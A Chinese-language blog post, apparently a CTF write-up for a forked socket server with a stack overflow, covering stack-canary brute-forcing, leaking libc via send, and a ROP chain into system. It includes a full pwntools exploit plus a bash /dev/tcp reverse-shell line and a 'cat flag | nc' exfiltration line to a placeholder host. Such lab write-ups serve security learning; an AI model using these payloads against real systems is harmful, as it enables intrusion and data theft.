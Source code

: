 ```yaml
---
layout: post
title: "cookie爆破"
date: 2018-07-6
categories: jekyll update
---
```

### level6_cookie


这是一个简单的**socket服务器栈溢出**的题目
##### 溢出漏洞点
<img src="/images/posts/keen/1530851457324.png" >

**特点：fork子程序，从同一片内存申请，cookie值一样，可以爆破**

**这里本地调试需要先创建一个具有root权限的level6，然后用该用户来执行该程序，注意这里需要先起一个服务器，然后再nc连上去进行调试**

##### 一些小知识点和疑问
```
TCP反连；nc反弹shell：cat flag | nc xxx.xxx.xx.xx 8888
关于反弹shell的一些资料参考：
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.gnucitizen.org/blog/reverse-shell-with-bash/
疑问：为什么cookie会距离ebp有12byte这么远？
尝试解答：是不是这个ebp是主函数main的，而不是子函数的。所以中间还隔了一个子函数的ebp
SIGCHLD
进程Terminate或Stop的时候，SIGCHLD会发送给它的父进程。缺省情况下该Signal会被忽略
```

##### 调试用到的命令：
```
print system #看泄露出来的地址是否与链接库的地址相同
info proc   #查看进程号
cat /home/level6/9441/fd  #查看fd可能的值(标准输入/出和默认值)
ROPgadget --binary cookie #查找ROP
ps -aux | grep cookie #查看当前运行进程
info proc all  #查看一些程序运行的信息
set follow-fork-mode child  #fork之后调试子进程，父进程不受影响。
上面一条命令参考链接：https://www.ibm.com/developerworks/cn/linux/l-cn-gdbmp/index.html
```
##### 做题过程中遇到的问题和解决办法
+  对C语言写的socket不熟悉，需要去了解其中的流程(但其实对解题没太大的影响)
+  主要是这里用到了fork子进程来进行执行输入的，所以每次输入都会从同一个内存片段去取cookie(只要这个进程没断就是从同一片内存中取值)
+  一段时间没做题，调试起来有点生疏，调试的时候注意考虑下断点的位置，然后逐步ni单步查看执行的整个流程是否符合我们设置的跳转
+  这次调试不出来主要是参数个数问题，c语言里面没有默认参数为0这个说法，需要查好调用每一个函数的参数个数和值进行一一配置。
+  不必要的send多次payload可以通过ROP连接起来，灵活利用，灵活操作。

##### 本题主要思路
+ 配置好本地调试的服务器环境(具有root权限的level6)
+ 爆破cookie
+ 确定溢出位置和溢出长度
+ 泄露send地址
+ 确定下断点位置：0x08048C47进行调试
+ 找到一个可写的地址，通过recv接收数据写到那个地址上，再把该地址作为参数给到system来调用即可getshell

##### 具体详细代码
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level='debug'

IP = '192.168.210.11'
#IP = '192.168.23.130'
PORT = 10006
NORMAL_RET_ADDR = 0x804897b
TEST_FINI = 0x8048fc0

canary = "\x00"
padding = "a"*64
"""
for x in xrange(3):
    for y in xrange(256):
        with remote(IP, PORT) as p:
            if y == 10:
                continue
            p.send(padding+canary+chr(y) + chr(10))
            try:
                info = p.recvuntil('GoodBye')
		p.close()
		break
            except Exception as e:
                print('exception %s' % e)
		p.close()
                continue
    print('got single byte %x' % y)
    canary += chr(y)
print "cookie bruteforce complete with cookie = " + hex(u32(canary))
"""
canary = p32(0xb28dff00)
#canary = p32(0xc6586e00)
p = remote(IP, PORT)
libc = ELF('libc.so.6')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('cookie')
send_plt = elf.plt['send']
send_got = elf.got['send']
vuln_addr = 0x0804897B
payload1 = 'a'*64 + canary +'a'*12 + p32(send_plt) + p32(0) + p32(4) + p32(send_got) + p32(4) + p32(0)
p.sendlineafter('Would you like some cookie?\n', payload1)
#0xb7587000
#p.recvline()
#p.recv()
recved = p.recv()
#print(recved)
print(len(recved))
send_addr = u32(recved)
p.info('send addr %x' % send_addr)

libc_base = send_addr - libc.symbols['send']
p.info('libc base %x' % libc_base)

system_addr = libc_base + libc.symbols['system']
system_cmd = 'ls'
p.info('system addr %x' % system_addr)
recv_plt = elf.plt['recv']
writable_addr = 0x804b07c

p = remote(IP, PORT)
pause()
payload2 = 'bash -i >& /dev/tcp/xxx.xxx.xx.xx/8888 0>&1'.ljust(64, '\x00') + canary + 'a' * 12 + p32(recv_plt) + p32(system_addr) + p32(4) + p32(writable_addr) + p32(100) + p32(0)
'''
payload2 = 'bash -i >& /dev/tcp/xxx.xxx.xx.xx/8888 0>&1'.ljust(64, '\x00') + canary + 'a' * 12 + p32(recv_plt) + p32(0x08048fb8) + p32(4) + p32(writable_addr) + p32(100) + p32(0) + p32(system_addr) + p32(0) + p32(writable_addr)
'''
p.sendlineafter('Would you like some cookie?', payload2)
p.send('cat flag | nc xxx.xxx.xx.xx 8888'.ljust(100, '\x00'))


payload3 = 'a' * 64 + canary + 'a' * 12 + p32(system_addr) + p32(0) + p32(writable_addr)
p.info('system %x' % system_addr)
p.close()
p = remote(IP, PORT)
p.sendlineafter('Would you like some cookie?', payload3)
#p.interactive()

```